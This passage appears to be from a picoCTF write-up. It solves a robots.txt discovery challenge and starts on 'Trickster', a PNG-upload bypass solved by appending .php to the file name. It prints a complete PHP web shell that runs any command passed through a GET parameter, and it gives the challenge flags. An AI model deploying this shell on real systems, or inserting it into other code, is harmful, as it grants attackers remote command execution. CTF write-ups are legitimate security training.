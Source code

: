 `flag: picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}`

### where are the robots

`Description`
```
Can you find the robots? https://jupiter.challenges.picoctf.org/problem/36474/ (link) or http://jupiter.challenges.picoctf.org:36474
``` 

access `/robots.txt` 
```
User-agent: *
Disallow: /477ce.html
```
after access `/477ce.html`
```

<!doctype html>
<html>
  <head>
    <title>Where are the robots</title>
    <link href="https://fonts.googleapis.com/css?family=Monoton|Roboto" rel="stylesheet">
    <link rel="stylesheet" type="text/css" href="style.css">
  </head>
  <body>
    <div class="container">
      
      <div class="content">
	<p>Guess you found the robots<br />
	  <flag>picoCTF{ca1cu1at1ng_Mach1n3s_477ce}</flag></p>
      </div>
      <footer></footer>
  </body>
</html>
```

`flag: picoCTF{ca1cu1at1ng_Mach1n3s_477ce}`


## Medium
### Trickster
`Description`
```
I found a web app that can help process images: PNG images only!
Try it here!
``` 

This is a challenge about a `file upload vulnerability`. We are only allowed to upload `PNG` files, but the extension is not strictly checked, so I appended `.php` to bypass it.

shell php at [here](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```